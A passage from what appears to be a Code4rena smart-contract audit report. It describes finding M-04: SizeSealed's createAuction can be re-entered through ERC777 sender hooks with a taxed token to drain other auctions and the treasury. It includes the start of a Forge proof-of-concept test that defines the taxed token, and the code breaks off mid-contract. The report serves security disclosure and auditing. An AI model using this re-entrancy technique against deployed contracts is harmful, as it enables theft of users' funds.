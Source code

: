 > Thanks for the comments and fact based discussion which is always welcomed, going to move forward with a M here.

* * *

[](#m-04-auction-created-by-erc777-tokens-with-tax-can-be-stolen-by-re-entrancy-attack)[\[M-04\] Auction created by ERC777 Tokens with tax can be stolen by re-entrancy attack](https://github.com/code-423n4/2022-11-size-findings/issues/192)
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by [ronnyx2017](https://github.com/code-423n4/2022-11-size-findings/issues/192)_

The createAuction function lacks the check of re-entrancy. An attacker can use an ERC777 token with tax as the base token to create auctions. By registering ERC777TokensSender interface implementer in the ERC1820Registry contract, the attacker can re-enter the createAuction function and create more than one auction with less token. And the sum of the totalBaseAmount of these auctions will be greater than the token amount received by the SizeSealed contract. Finally, the attacker can take more money from the contract global pool which means stealing tokens from the other auctions and treasury.

### [](#proof-of-concept-5)Proof of Concept

Forge test

    // SPDX-License-Identifier: GPL-3.0
    pragma solidity 0.8.17;
    
    import {Test} from "forge-std/Test.sol";
    
    import {SizeSealedTest} from "./SizeSealed.t.sol";
    import {ERC777} from "openzeppelin-contracts/contracts/token/ERC777/ERC777.sol";
    import "openzeppelin-contracts/contracts/utils/introspection/IERC1820Registry.sol";
    import {MockSeller} from "./mocks/MockSeller.sol";
    import {MockERC20} from "./mocks/MockERC20.sol";
    
    contract TaxERC777 is ERC777{
        uint32 tax = 50; // 50% tax rate
    
        constructor(string memory name_,
            string memory symbol_,
            address[] memory defaultOperators_) ERC777(name_, symbol_, defaultOperators_){}
        
        function mint(address rec, uint256 amount) external{
            super._mint(rec, amount, "", "", false);
        }
    
        function _beforeTokenTransfer(
            address operator,
            address from,
            address to,
            uint256 amount
        ) internal override {
            if(to == address(0)||from==address(0)){ return;}
            // tax just burn for test
            
        }
    
        function _send(
            address from,
            address to,
            uint256 amount,
            bytes memory userData,
            bytes memory operatorData,
            bool requireReceptionAck
        ) internal override {
            uint tax_amount = amount* tax / 100;
            _burn(from, tax_amount, "", "");
            super._send(from, to, amount-tax_amount, userData, operatorData, requireReceptionAck);
        }
    